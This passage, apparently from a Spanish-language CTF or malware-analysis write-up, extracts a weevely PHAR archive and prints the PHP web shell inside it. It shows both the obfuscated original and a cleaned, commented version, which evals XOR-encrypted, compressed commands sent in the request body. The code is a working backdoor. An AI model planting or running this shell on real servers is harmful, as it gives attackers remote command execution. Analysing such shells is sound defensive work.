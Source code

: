 Mediante el siguiente comando se puede extraer el archivo PHAR.

```
h3rshel@kali:~/Downloads$ php -r '$phar = new Phar("weevely.phar"); $phar->extractTo("./directory");'
```

Navego al directorio "./directory" que es donde encuentro el script en php.

```
h3rshel@kali:~/Downloads/directory$ cat x          
<?php eval('$k="3ddf0d5c";$kh="b6e7a529b6c2";$kf="d598a771749b";$p="afnqDsRcBpVmU71y";

function x($t,$k){
$c=strlen($k);$l=strlen($t);$o="";
for($i=0;$i<$l;){
for($j=0;($j<$c&&$i<$l);$j++,$i++)
{
$o.=$t[$i]^$k[$j];
}
}
return $o;
}
if (@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1) {
@ob_start();
@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
$o=@ob_get_contents();
@ob_end_clean();
$r=@base64_encode(@x(@gzcompress($o),$k));
print("$p$kh$r$kf");
}');
```

Dándole un lavado de cara para verlo más bonito queda de la siguiente manera.

```php
<?php
// Define algunas variables
$clave = "3ddf0d5c";
$claveInicio = "b6e7a529b6c2";
$claveFinal = "d598a771749b";
$prefijo = "afnqDsRcBpVmU71y";

// Define una función llamada "descifrar"
function descifrar($texto, $clave) {
    $longitudClave = strlen($clave);
    $longitudTexto = strlen($texto);
    $resultado = "";

    for ($i = 0; $i < $longitudTexto;) {
        for ($j = 0; ($j < $longitudClave && $i < $longitudTexto); $j++, $i++) {
            $resultado .= $texto[$i] ^ $clave[$j];
        }
    }

    return $resultado;
}

// Verifica si ciertos datos en el cuerpo de la solicitud coinciden con la clave
if (@preg_match("/$claveInicio(.+)$claveFinal/", @file_get_contents("php://input"), $coincidencias) == 1) {
    @ob_start();
    @eval(@gzuncompress(@descifrar(@base64_decode($coincidencias[1]), $clave)));
    $resultadoDescifrado = @ob_get_contents();
    @ob_end_clean();
    $resultadoCodificado = @base64_encode(@descifrar(@gzcompress($resultadoDescifrado), $clave));
    print("$prefijo$claveInicio$resultadoCodificado$claveFinal");
```
